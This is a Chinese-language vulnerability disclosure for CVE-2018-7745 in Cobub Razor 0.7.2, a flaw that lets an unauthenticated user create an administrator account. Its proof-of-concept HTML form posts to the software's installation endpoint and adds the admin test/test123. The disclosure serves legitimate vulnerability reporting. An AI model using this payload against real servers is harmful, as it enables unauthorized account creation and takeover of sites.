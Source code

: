 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|Cobub-Razor-0.7.2越权增加管理员账户|2018-04-09|ppb（ppb@5ecurity.cn）|[https://github.com/cobub/razor/](https://github.com/cobub/razor/) | [https://github.com/cobub/razor/](https://github.com/cobub/razor/) |0.72| [CVE-2018-7745](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7745)|  

#### 漏洞概述  

> Cobub-Razor-0.7.2越权增加管理员账户漏洞，在不登录的情况下发送特定数据包，可新增管理员账号。保存如下利用代码为html页面，打开页面将增加test/test123的管理员账号，漏洞发现者已经将漏洞信息通过[issues](https://github.com/cobub/razor/issues/161)告知作者。   
 

### POC实现代码如下：  

> 利用代码如下：
``` html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/index.php?/install/installation/createuserinfo" method="POST">
      <input type="hidden" name="siteurl" value="http://127.0.0.1/" />
      <input type="hidden" name="superuser" value="test" />
      <input type="hidden" name="pwd" value="test123" />
      <input type="hidden" name="verifypassword" value="test123" />
      <input type="hidden" name="email" value="12@qq.com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
